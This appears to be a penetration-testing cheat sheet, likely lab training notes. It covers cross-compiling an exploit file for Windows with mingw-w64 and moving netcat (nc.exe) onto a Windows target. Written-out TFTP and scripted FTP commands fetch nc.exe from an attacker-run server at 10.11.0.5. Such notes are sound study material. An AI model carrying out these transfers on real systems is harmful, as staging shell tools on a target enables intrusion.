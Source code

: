 
# Cross compilation
## mingw-w64 
https://www.systutorials.com/docs/linux/man/1-i686-w64-mingw32-gcc/
```bash
 i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe

```

# File transfer

https://blog.ropnop.com/transferring-files-from-kali-to-windows/

## TFTP
Server
```bash
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/

```
Client
```bash
tftp -i SERVER-IP get nc.exe
```

## FTP
```bash
apt-get update && apt-get install pure-ftpd
```
Create a new user for the ftp server
```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
Run the script
```bash
chmod 755 setup-ftp
./setup-ftp
```

Windows commands for connection
```cmd
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```
